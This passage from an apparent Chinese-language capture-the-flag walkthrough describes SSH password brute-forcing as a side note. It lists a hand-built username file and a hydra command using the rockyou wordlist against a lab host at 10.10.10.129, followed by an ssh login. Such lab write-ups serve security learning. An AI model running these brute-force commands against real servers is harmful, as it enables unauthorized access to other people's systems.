

# 延伸（题外话）
## 用九头蛇爆破ssh

SSH爆破这个优先级不高，是没有拿到其他立足点的话，只能试试这个了。
```bash
# 构建一个user.txt的文本，可以从FTP匿名登录拿到的信息作为目标。
vim user.txt

# 如下信息
hector     # 只有这个关联比较大，IT部门的
root
admin
w1r3s

# 九头蛇爆破
sudo hydra -L user.txt -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.129 -t 4

# 用爆破的密码，ssh
ssh w1r3s@10.10.10.129

# 如下的同上操作，一模一样
```

